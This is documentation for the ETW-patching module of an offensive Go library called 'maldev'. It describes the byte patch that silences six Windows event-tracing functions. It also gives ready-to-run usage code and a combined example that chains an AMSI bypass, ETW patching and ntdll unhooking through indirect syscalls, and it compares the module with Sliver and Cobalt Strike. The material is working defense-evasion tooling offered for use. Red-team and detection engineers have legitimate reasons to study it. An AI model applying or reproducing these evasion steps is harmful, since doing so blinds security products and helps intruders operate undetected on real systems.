

# ETW Patching

> **MITRE ATT&CK:** T1562.001 -- Impair Defenses: Disable or Modify Tools | **D3FEND:** D3-EAL -- Execution Activity Logging | **Detection:** Medium

## For Beginners

Windows has security cameras everywhere -- they record which programs run, what files they open, what network connections they make. This surveillance system is called ETW (Event Tracing for Windows). Almost every security product (Defender, CrowdStrike, SentinelOne, Elastic) relies on ETW events to detect malicious behavior in real time.

ETW patching is like replacing the security camera feeds with a static image. The cameras are still mounted on the walls, still powered on, but the feed shows nothing interesting. Technically, you overwrite the entry points of the functions responsible for writing ETW events so they immediately return "success" without actually writing anything. From that moment, the process generates zero telemetry -- it is invisible to any ETW consumer.

This is often the second evasion step (after AMSI bypass). Without ETW, security products lose visibility into .NET assembly loads, PowerShell commands, network connections, and many other high-value signals.

## How It Works



**Patch details:**

The x64 stub `48 33 C0 C3` translates to:
- `48 33 C0` -- `xor rax, rax` (set return value to 0 = STATUS_SUCCESS)
- `C3` -- `ret` (return immediately)

This 4-byte patch overwrites the function prologue. The function appears to succeed from the caller's perspective, but no event data is written.

**Six functions patched:**

1. **EtwEventWrite** -- Primary event writing function used by most providers.
2. **EtwEventWriteEx** -- Extended version with additional parameters.
3. **EtwEventWriteFull** -- Full event write with all options.
4. **EtwEventWriteString** -- String-based event writing.
5. **EtwEventWriteTransfer** -- Activity-correlated event writing.
6. **NtTraceEvent** -- Lower-level NT function used by some providers. Patched separately via `PatchNtTraceEvent()`.

Functions not present on the current OS version are silently skipped.

## Usage

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion/etw"
)

func main() {
    // Patch all 5 EtwEventWrite* functions.
    if err := etw.Patch(nil); err != nil {
        log.Fatal(err)
    }

    // Also patch NtTraceEvent for complete coverage.
    if err := etw.PatchNtTraceEvent(nil); err != nil {
        log.Fatal(err)
    }
}
```

## Combined Example

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
    "github.com/oioio-space/maldev/evasion/unhook"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    caller := wsyscall.New(wsyscall.MethodIndirect,
        wsyscall.Chain(wsyscall.NewHellsGate(), wsyscall.NewHalosGate()))

    // Apply AMSI + ETW + selective unhook as a batch.
    techniques := []evasion.Technique{
        amsi.ScanBufferPatch(),
        etw.All(),        // patches all 6 functions
        unhook.Full(),     // restore entire ntdll .text
    }
    if errs := evasion.ApplyAll(techniques, caller); errs != nil {
        for name, err := range errs {
            log.Printf("%s: %v", name, err)
        }
    }
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | Medium -- patching ntdll in-memory is detectable by integrity checks. Using a Caller avoids hooks on `VirtualProtect`. |
| Coverage | Comprehensive -- patches all known ETW writing functions plus the kernel-level `NtTraceEvent`. |
| Scope | Process-local. Other processes and kernel-mode ETW are not affected. |
| Compatibility | Windows 7+. Functions not present on older versions are silently skipped. |
| Limitations | Kernel-mode ETW providers (e.g., Microsoft-Windows-Threat-Intelligence) are not affected -- they write events from ring 0. Some EDR products detect ntdll modification via periodic integrity scanning. |
| Side effects | Disabling ETW may cause legitimate application telemetry to stop (e.g., performance counters). |

## Compared to Other Implementations

| Feature | maldev | Sliver | CobaltStrike | D3Ext/maldev |
|---------|--------|--------|--------------|--------------|
| EtwEventWrite patch | Yes | Yes | BOF | Yes |
| EtwEventWriteEx | Yes | No | No | No |
| EtwEventWriteFull | Yes | No | No | No |
| EtwEventWriteString | Yes | No | No | No |
| EtwEventWriteTransfer | Yes | No | No | No |
| NtTraceEvent | Yes | No | No | No |
| Caller-routed | Yes | No | N/A | No |
| Technique interface | `etw.All()` | Built-in | Profile | Function |
| Graceful skip (missing procs) | Yes | No | N/A | No |

## API Reference

```go
// Patch patches all 5 EtwEventWrite* functions in ntdll.dll.
// Procs not present on the current OS are silently skipped.
func Patch(caller *wsyscall.Caller) error

// PatchNtTraceEvent patches the lower-level NtTraceEvent function.
func PatchNtTraceEvent(caller *wsyscall.Caller) error

// PatchAll applies both Patch and PatchNtTraceEvent.
func PatchAll(caller *wsyscall.Caller) error

// Technique constructors:
func All() evasion.Technique  // wraps PatchAll
```
